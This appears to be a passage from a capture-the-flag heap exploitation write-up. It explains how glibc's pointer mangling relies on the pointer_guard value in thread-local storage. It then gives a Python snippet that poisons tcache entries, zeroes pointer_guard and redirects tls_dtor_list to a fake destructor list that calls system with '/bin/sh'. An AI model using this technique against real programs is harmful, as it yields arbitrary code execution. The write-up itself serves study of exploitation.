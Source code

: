 ```c
}
```



`PTR_MANGLE()` works by XORing the pointer with a 64bit secret thread data (`fs:0x30`), then performing a bitwise left rotation of 0x11 bits (on x86-64). `PTR_DEMANGLE()` is the reverse. 

That secret value is store in Thread Local Storage (namely `pointer_guard`, below `canary`) and its address can be calculated from libc base too. If you can overwrite the pointer guard value to 0, so the mangle will be just ROL(0x11)

Therefore, we control `tcache_perthread_struct` to point entries of 2 sizes to `tls_dtor_list` and `pointer_guard` to bypass `PTR_DEMANGLE()` and point `tls_dtor_list` to a crafted `dtor_list` with function attribute can be `system` or `execve` 

```python
edit(0, 0x78, p16(1)*(0x70//2))     # overwrite tcache->counts
edit(1, 0x78, p64(tls_dtor_list) + p64(pointer_guard) + p64(rol(lib.sym['system'], 0x11, 64)) + p64(binsh))    # overwrite tcache->entries

edit(7, 0x20, p64(0))   # overwrite pointer_guard
edit(8, 0x18, p64(0) + p64(fake_dtor_list))  # point to fake dtor_list 
```

